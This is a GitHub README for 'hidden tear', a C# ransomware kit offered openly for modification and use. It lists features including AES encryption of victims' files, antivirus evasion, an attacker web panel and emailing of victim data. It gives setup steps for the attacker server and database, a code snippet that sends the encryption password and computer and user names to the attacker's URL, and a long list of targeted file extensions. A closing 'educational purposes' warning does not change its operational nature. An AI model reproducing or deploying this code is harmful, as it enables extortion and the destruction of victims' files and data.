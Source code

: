          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with virus total or similar
* This project was updated by Virgula0 and coded by Uktu Sen 
- New features:
* A new advanced server script was added that saves data into database
* All information are sent if there is an internet connection and the ransomware waiting for it if there isn't.
* You can see all target information with Server Attacker panel
* Script can also send you an email with datas
* It can encrypt also exe files and it doesn't get collisions with other processes now
* After the double click on it, virus disappears and it can ecnrypt with no collision due to this Move.Directory function
* It encrypt now a lot of files with a lot of extensions more and changing desktop icon with information about hacking attack
* Hidden Tear decryptor now advise if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden tear change default windows icon of desktop if decrypted is succesfully finished.
* A bug that could delete a part of passcode while sending has been removed.

***************************************************************************************************************************
* If you want , you can send some BTC for this re-work and support me, thank you!
*
* Address: 18pm5hUEXmkXFVmbFsyHPMMAsnCkEyQJmW	| Or you can scan qr code named donation_btc_address.png in the main path *
* Or paypal: https://paypal.me/Virgula																					  *
* Thank You!																											  *
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports php scripting language. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import sql table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file: write.php and uncomment from the line 37 to 43. For privacy of information this is not recommended
  * Set your email to get information also by email (don't write your PERSONAL email) in line  47 of file write.php

* The script should writes the GET parameter into a database and if you want into a text file. Sending process running in `SendPassword()` function

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:
* Warning: Make sure that script works before to try on a victim pc running it on some virtual machines for example.

```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THIS FILES WILL CRASH YOUR SCRIPT
* In this new re-upload there is a function that wait for internet connection before to send password to database:

	    ```
        //check for internet connection
        public static bool CheckForInternetConnection()
        {
            try
            {
                using (var client = new WebClient())
                {
                    using (var stream = client.OpenRead("https://www.google.com"))
                    {
                        return true;
                    }
                }
            }
            catch
            {
                return false;
            }
        }
		```

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
